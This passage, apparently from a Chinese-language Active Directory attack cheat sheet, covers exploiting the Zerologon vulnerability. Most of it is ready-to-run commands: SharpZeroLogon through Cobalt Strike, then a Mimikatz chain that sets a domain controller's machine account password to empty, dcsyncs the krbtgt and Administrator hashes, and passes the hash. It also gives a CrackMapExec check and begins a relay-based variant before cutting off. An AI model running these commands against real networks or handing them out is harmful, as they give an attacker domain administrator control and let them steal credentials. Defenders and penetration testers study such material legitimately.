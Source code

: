 * `nccfsas` - Cobalt strike的.NET二进制文件

  ```powershell
  git clone https://github.com/nccgroup/nccfsas
  # 检查
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local
  
  # 重置机器账户密码
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -reset
  
  # 从非域加入的机器测试
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -patch
  
  # 现在将密码重置回去
  ```

* `Mimikatz` - 2.2.0 20200917 Post-Zerologon

  

  ```powershell
  privilege::debug
  # 检查CVE
  lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$
  
  # 利用CVE并将计算机账户的密码设置为""
  lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit
  
  # 执行dcsync以提取一些哈希值
  lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
  lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
  
  # 使用提取的域管理员哈希传递哈希
  sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN
  
  # 使用IP地址而不是FQDN来强制使用Windows API的NTLM
  # 将密码重置为Waza1234/Waza1234/Waza1234/
  # https://github.com/gentilkiwi/mimikatz/blob/6191b5a8ea40bbd856942cbc1e48a86c3c505dd3/mimikatz/modules/kuhl_m_lsadump.c#L2584
  lsadump::postzerologon /target:10.10.10.10 /account:DC01$
  ```

  * `CrackMapExec` - 仅检查

    ```powershell
    crackmapexec smb 10.10.10.10 -u username -p password -d domain -M zerologon
    ```

  利用zerologon的第二种方法是通过中继认证。

  这种技术，[由dirkjanm发现](https://dirkjanm.io/a-different-way-of-abusing-zerologon)，需要更多的先决条件，但优点是对服务连续性没有影响。需要的先决条件如下：

  * 一个域账户
